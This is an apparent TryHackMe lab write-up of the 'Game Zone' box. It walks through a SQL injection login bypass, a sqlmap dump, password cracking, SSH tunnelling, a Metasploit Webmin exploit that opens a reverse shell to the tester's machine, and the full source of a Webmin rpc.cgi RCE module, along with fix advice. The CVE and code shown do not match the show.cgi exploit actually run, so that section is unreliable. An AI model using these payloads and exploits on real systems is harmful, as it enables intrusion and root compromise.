




Links: [[TryHackMe Boxes]]
#linux 

# Game Zone
---
### System IP: 10.10.185.92

#### Service Enumeration

Server IP Address | Ports Open
------------------|----------------------------------------
http://10.10.185.92      | **TCP**: 22,80

**Nmap Scan Results:**

```
# Nmap 7.91 scan initiated Wed Feb 10 19:00:52 2021 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/ttl0/autorecon/results/10.10.185.92/scans/_quick_tcp_nmap.txt -oX /home/ttl0/autorecon/results/10.10.185.92/scans/xml/_quick_tcp_nmap.xml 10.10.185.92
Nmap scan report for 10.10.185.92
Host is up, received user-set (0.098s latency).
Scanned at 2021-02-10 19:00:54 EST for 15s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFJTi0lKi0G+v4eFQU+P+CBodBOruOQC+3C/nXv0JVeR7yDWH6iRsFsevDofWcq05MZBr/CDPCnluhZzM1psx+5bp1Eiv3ecO0PF1QjhAzsPwUcmFSG1zAg+S757M+RFeRs0Jw0WMev8N6aR3uBZQSDPwBHGps+mZZZRcsssckJGQCZ4Qg/6PVFIwNGx9UoftdMFyfNMU/TDZmoatzo/FNEJOhbR38dF/xw9s/HRhugrUsLdNHyBxYShcY3B0Y2eLjnnuUWhYPmLZqgHuHr+eKnb1Ae3MB5lJTfZf3OmWaqcDVI3wpvQK7ACC9S8nxL3vYLyzxlvucEZHM9ILBI7Ov
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKAU0Orx0zOb8C4AtiV+Q1z2yj1DKw5Z2TA2UTS9Ee1AYJcMtM62+f7vGCgoTNN3eFj3lTvktOt+nMYsipuCxdY=
|   256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL6LScmHgHeP2OMerYFiDsNPqgqFbsL+GsyehB76kldy
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 10 19:01:09 2021 -- 1 IP address (1 host up) scanned in 17.92 seconds

```

**Web Enumeration Results:**

```
/.hta (Status: 403) [Size: 291]
/.hta.html (Status: 403) [Size: 296]
/.hta.php (Status: 403) [Size: 295]
/.hta.asp (Status: 403) [Size: 295]
/.hta.aspx (Status: 403) [Size: 296]
/.hta.jsp (Status: 403) [Size: 295]
/.hta.txt (Status: 403) [Size: 295]
/.htaccess (Status: 403) [Size: 296]
/.htaccess.html (Status: 403) [Size: 301]
/.htaccess.php (Status: 403) [Size: 300]
/.htaccess.asp (Status: 403) [Size: 300]
/.htaccess.aspx (Status: 403) [Size: 301]
/.htaccess.jsp (Status: 403) [Size: 300]
/.htaccess.txt (Status: 403) [Size: 300]
/.htpasswd (Status: 403) [Size: 296]
/.htpasswd.html (Status: 403) [Size: 301]
/.htpasswd.php (Status: 403) [Size: 300]
/.htpasswd.asp (Status: 403) [Size: 300]
/.htpasswd.aspx (Status: 403) [Size: 301]
/.htpasswd.jsp (Status: 403) [Size: 300]
/.htpasswd.txt (Status: 403) [Size: 300]
/images (Status: 301) [Size: 313]
/index.php (Status: 200) [Size: 4502]
/index.php (Status: 200) [Size: 4502]
/portal.php (Status: 302) [Size: 0]
/server-status (Status: 403) [Size: 300]
```

index.php is vulnerable to a SQL injection with the following credentials



```
username: admin' OR '1'='1' --
password:
```

We get a redirect to /portal.php



**Initial Shell Vulnerability Exploited:**

We capture a request through ZAP and save it to to login.req.raw
```
POST http://10.10.185.92/portal.php HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.185.92
Connection: keep-alive
Referer: http://10.10.185.92/portal.php
Cookie: PHPSESSID=pqe6cnulihgk1111flhd5afdr5
Upgrade-Insecure-Requests: 1
Host: 10.10.185.92

searchitem=test
```

We start sqlmap to fuzz the website
```
sqlmap -r login.req.raw --dbms=mysql --dump
```

We get the following tables (table contains a username and hashed password)
```
back-end DBMS: MySQL >= 5.6
[19:31:36] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:31:36] [INFO] fetching current database
[19:31:36] [INFO] fetching tables for database: 'db'
[19:31:36] [INFO] fetching columns for table 'post' in database 'db'
[19:31:36] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+


```

We use John the ripper to crack the password

```
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2021-
```

We find the password for ==agent47== of ==videogamer124==

We login to the machine through ssh with those credentials
```bash
└─$ ssh agent47@10.10.185.92
The authenticity of host '10.10.185.92 (10.10.185.92)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.185.92' (ECDSA) to the list of known hosts.
agent47@10.10.185.92's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$
```

**Info about where the initial shell was acquired from**

The initial shell credentials were acquired through using the same username and password from a MySQL database that was cracked through a SQL injection and fuzz.

**Vulnerability Explanation:**
A [SQL injection](https://owasp.org/www-community/attacks/SQL_Injection) attack consists of insertion or “injection” of a SQL query via the input data from the client to the application.

**Vulnerability Fix:**
Fix the SQL injection by the use of proper input sanitization.
The 4 primary defenses for SQL injection are:
**Option 1: Use of Prepared Statements (with Parameterized Queries)**
**Option 2: Use of Stored Procedures**
**Option 3: Whitelist Input Validation**
**Option 4: Escaping All User Supplied Input**

You can read more at https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

**Severity:**
High

**Local.txt Proof Screenshot**



**Local.txt Contents**
```
gent47@gamezone:~$ hostname && whoami && cat user.txt && ip a
gamezone
agent47
649ac17b1480ac13ef1e4fa579dac95c
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:ab:3c:ea:de:8d brd ff:ff:ff:ff:ff:ff
    inet 10.10.185.92/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::ab:3cff:feea:de8d/64 scope link 
       valid_lft forever preferred_lft forever
```


#### Privilege Escalation
We find a service running on TCP 10000 that was not picked up by nmap:
```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN    
```

We use SSH to tunnel through and bind the port to locahost TCP 10000

```
ssh -L 10000:localhost:10000 agent47@10.10.185.92

```

We do another nmap scan and find webmin httpd running at version 1.580:

```
└─$ nmap -p 10000 -sC -sT -sV -oA nmap/game_zone localhost
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-10 20:19 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000046s latency).
Other addresses for localhost (not scanned): ::1

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Login to Webmin
```

Using searchsploit we find that this version of webmin is vulnerable to RCE and has a exploit made for Metasploit

```
─$ searchsploit webmin 1.580
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                                                                                                    | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                                                                                            | linux/webapps/47330.rb
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
┌──(ttl0㉿kali)-[~/tryhackme/game_zone]
└─$ 

```

We log in Metasploit and use webmin_show_cgi_exec module with the following parameters:

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  videogamer124    yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       false            yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.9.1.171       yes       The listen address (an interface may be specified)
   LPORT  1337             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
```

We run the exploit and have root:
```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.9.1.171:1337 
[*] Attempting to login...
[+] Authentication successfully
[+] Authentication successfully
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo BmSR3XLXPRv2KOwv;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "BmSR3XLXPRv2KOwv\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.9.1.171:1337 -> 10.10.185.92:34344) at 2021-02-10 21:07:11 -0500

hostname && whoami && cat /root/root.txt && ip a
gamezone
root
a4b945830144bdd71908d12d902adeee
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:ab:3c:ea:de:8d brd ff:ff:ff:ff:ff:ff
    inet 10.10.185.92/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::ab:3cff:feea:de8d/64 scope link 
       valid_lft forever preferred_lft forever
3: lxdbr0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default qlen 1000
    link/ether b6:c9:c9:11:af:13 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::b4c9:c9ff:fe11:af13/64 scope link 
       valid_lft forever preferred_lft forever
    inet6 fe80::1/64 scope link 
       valid_lft forever preferred_lft forever
```

**Vulnerability Exploited:**
[CVE-2019-15642] (https://www.cvedetails.com/cve/CVE-2019-15642/ "CVE-2019-15642 security vulnerability details")
**Vulnerability Explanation:**
rpc.cgi in Webmin through 1.920 allows authenticated Remote Code Execution via a crafted object name because unserialise\_variable makes an eval call. NOTE: the Webmin\_Servers\_Index documentation states "RPC can be used to run any command or modify any file on a server, which is why access to it must not be granted to un-trusted Webmin users."

**Vulnerability Fix:**
Upgrade to a newer release of Webmin (higher than 1.920)

**Severity:**
CVSS Score 6.5

**Exploit Code:**
```ruby
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info={})
    super(update_info(info,
      'Name'           => "Webmin < 1.930 Remote Code Execution",
      'Description'    => %q{
      This exploit takes advantage of a code execution issue within the function 
      unserialise_variable() located in web-lib-funcs.pl, in order to gain root.
      The only prerequisite is a valid session id.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'James Bercegay', # Vulnerability Discovery
        ],
      'References'     =>
        [
          [ 'URL', 'https://www.gulftech.org/' ]
        ],
      'Privileged'     => false,
      'Payload'        =>
        {
          'DisableNops' => true
        },
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Targets'        => [ ['Automatic', {}] ],
      'DisclosureDate' => '2019/08/30',
      'DefaultTarget'  => 0))

      register_options(
      [
        OptString.new('WMPORT',   [ true,  "Webmin port",     '10000']),
        OptString.new('WMUSER',   [ true,  "Webmin username", 'test']),
        OptString.new('WMPASS',   [ true,  "Webmin password", 'test']),
      ])
  end

  def check
      
    # Set Webmin port
    datastore['RPORT'] = datastore['WMPORT']

    # Verbose
    print_status("Attempting to login")

    # Send login request
    res = send_request_cgi(
      {
        'uri'       =>  '/session_login.cgi',
        'method'    => 'POST',
        'vars_post' =>
          {
            'user' => datastore['WMUSER'],
            'pass' => datastore['WMPASS'],
            'save' => '1'
          },
        'cookie' => "redirect=1; testing=1; sessiontest=1;"
      })

    # If succesful cookie will be set
    if ( res and res.headers['Set-Cookie'] )
      # Do we have a valid SID?
      if ( /sid=/.match(res.headers['Set-Cookie']) )
        # Extract the SID
        sid = /sid=([a-z0-9]+);/.match(res.headers['Set-Cookie'])[1]
        print_good("Login was successful")
      else
        # No dice
        print_bad("Unable to login")
        return Exploit::CheckCode::Safe
      end
    else
        # No dice
        print_bad("Unexpected response")
        return Exploit::CheckCode::Safe
    end

    # Verbose
    print_status("Checking if host is vulnerable")

    # Try to execute arbitrary code
    res = send_request_cgi({
        'uri'          => '/rpc.cgi',
        'method'       => 'POST',
        'headers'      => 
        {
          'Referer' => 'http://' + datastore['RHOST'] + ':' + datastore['RPORT'].to_s
        },
        'data'   => 'OBJECT CGI;print "Content-Type: text/metasploit\n\n"',
        'cookie' => 'redirect=1; testing=1; sessiontest=1; sid=' + sid
      })

    # If it works our custom Content-Type will be set
    if ( res.headers['Content-Type'] and res.headers['Content-Type'] == "text/metasploit" )
      # Good
      return Exploit::CheckCode::Vulnerable
    else
      # Bad
      return Exploit::CheckCode::Safe
    end
  end

  def exploit

    # Set Webmin port
    datastore['RPORT'] = datastore['WMPORT']

    # Verbose
    print_status("Attempting to login")

    # Send login request
    res = send_request_cgi(
      {
        'uri'       =>  '/session_login.cgi',
        'method'    => 'POST',
        'vars_post' =>
          {
            'user' => datastore['WMUSER'],
            'pass' => datastore['WMPASS'],
            'save' => '1'
          },
        'cookie' => "redirect=1; testing=1; sessiontest=1;"
      })

    # If succesful cookie will be set
    if ( res and res.headers['Set-Cookie'] )
      # Do we have a valid SID?
      if ( /sid=/.match(res.headers['Set-Cookie']) )
        # Extract the SID
        sid = /sid=([a-z0-9]+);/.match(res.headers['Set-Cookie'])[1]
        print_good("Login was successful")
      else
        # No dice
        print_bad("Unable to login")
        return
      end
    else
        # No dice
        print_bad("Unexpected response")
        return
    end

    # Verbose
    print_status("Sending selected payload")

    # Hex encode payload to prevent problems with the payload getting mangled
    hex = '\x' + payload.encoded.scan(/./).map{ |x| x.unpack('H*') }.join('\x')

    # Send selected payload
    res = send_request_cgi({
        'uri'          => '/rpc.cgi',
        'method'       => 'POST',
        'headers'      => 
        {
          'Referer' => 'https://' + datastore['RHOST'] + ':' + datastore['RPORT'].to_s
        },
        'data'   => 'OBJECT CGI;`' + hex + '`',
        'cookie' => 'redirect=1; testing=1; sessiontest=1; sid=' + sid
      })
    end
end
```

**Proof Screenshot Here:**



**Proof.txt Contents:**
```
hostname && whoami && cat /root/root.txt && ip a
gamezone
root
a4b945830144bdd71908d12d902adeee
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:ab:3c:ea:de:8d brd ff:ff:ff:ff:ff:ff
    inet 10.10.185.92/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::ab:3cff:feea:de8d/64 scope link 
       valid_lft forever preferred_lft forever
3: lxdbr0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default qlen 1000
    link/ether b6:c9:c9:11:af:13 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::b4c9:c9ff:fe11:af13/64 scope link 
       valid_lft forever preferred_lft forever
    inet6 fe80::1/64 scope link 
       valid_lft forever preferred_lft forever
```
